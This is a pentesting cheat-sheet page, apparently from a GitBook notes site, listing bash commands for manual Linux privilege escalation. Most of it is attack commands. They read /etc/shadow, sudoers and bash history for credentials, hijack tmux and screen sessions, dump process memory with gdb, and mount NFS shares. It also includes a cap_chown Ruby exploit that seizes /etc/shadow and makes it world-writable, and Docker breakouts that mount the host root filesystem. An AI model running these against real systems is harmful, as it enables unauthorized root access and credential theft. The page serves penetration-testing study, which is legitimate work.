 # Manual Checks

{% hint style="info" %}
<mark style="color:blue;">Manual checks can help</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**understand way more how attacks work**</mark><mark style="color:blue;">. Check this out !</mark>
{% endhint %}

## Walkthrough (Kinda)

```bash
# Any useful applications installed? 
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp tmux screen nmap 2>/dev/null

# sudo rights ?
sudo -l
sudo su
# check sudo version for exploits
sudo -V | grep “Sudo ver”

# check infos about the user
id
wwhoami
w
last
cat /etc/passwd
cat /etc/sudoers
cat /etc/group

# check kernel version
uname -a 
lsb_release -a
cat /proc/version /etc/issue /etc/*-release

# check for files/binaries & clear-text pasword in bash history
ls -la ~/ 
ls -la /var/mail /home/*/ /var/spool/mail /home/*/.bash_history /var

# check those files for hashes
cat /etc/passwd
cat /etc/shadow
ls -la /etc/passwd /etc/shadow

# can we write to the .bashsrc file ? if so, can be executed when us logs in
ls -la /root/.bashrc 
ls -la /home/*/.bashrc
locate .bashrc
find / -name .bashrc -xdev 2>/dev/null

# check app config files
# config.php
# ...

# something is running that we can exploit ?
ps aux | grep root

# localhost open ports ?
netstat -antup
ss

# any useful info in the main bash user files ?
cat /etc/profile 
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout

# check for cronjobs
crontab -l 
ls -alh /var/spool/cron
ls -al /etc/ | grep cron; ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root

# PSPY to to see commands run by other users, cron jobs, etc. in real time
./pspy > pspy-out.txt

# unmounted file-systems ?
cat /etc/fstab

# If NFS is open, check if the target has any open NFS shares, if it does, then mount it to your filesystem
showmount -e X.X.X.X
mount X.X.X.X:/ /tmp/

# check installed apps + versions + running ?
ls -alh /usr/bin/ /sbin/ /var/cache/apt/archives /var/cache/yum/
dpkg -l
rpm -qa

# can we hijack any shell sessions ?
tmux ls
tmux attach -t tmuxname 
screen -ls
screen-dr sessionname
byobu list-session

# some services can save clear-text creds in memory
ps aux # grab the process id
gdb -p SERVICE; gdb PROCID
```

#### Files permissions

{% hint style="info" %}
<mark style="color:blue;">If you fin something interesting, check</mark> [<mark style="color:blue;">**GTFOBins**</mark>](https://gtfobins.github.io/)<mark style="color:blue;">.</mark>
{% endhint %}

```bash
# World writable files directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null

# Look for setuid programs (everyone can run them as root)
find / -perm -4000

# World executable folder
find / -perm -o x -type d 2>/dev/null

# World writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null

# SUID
find / -perm -u=s -type f 2>/dev/null

find . -perm /4000 
```

#### Capabilities

{% hint style="info" %}
<mark style="color:blue;">Check for files with</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**capabilities**</mark><mark style="color:blue;">. These may allow us to access restricted files or directories.</mark>
{% endhint %}

* _Cap\_chown_

```bash
getcap -r / 2>/dev/null
# linpeas /usr/local/bin/ruby = cap_chown+ep 

echo 'File.chown(<User ID>, nil, "/etc/shadow")' > exploit.rb 
ruby exploit.rb 
chmod 777 /etc/shadow
nano /etc/shadow
```

#### Docker

```bash
docker run -it -v /:/mnt bash chroot

docker run -v /root:/mnt -it bash
```

{% embed url="https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout" %}

{% embed url="https://github.com/stealthcopter/deepce" %}
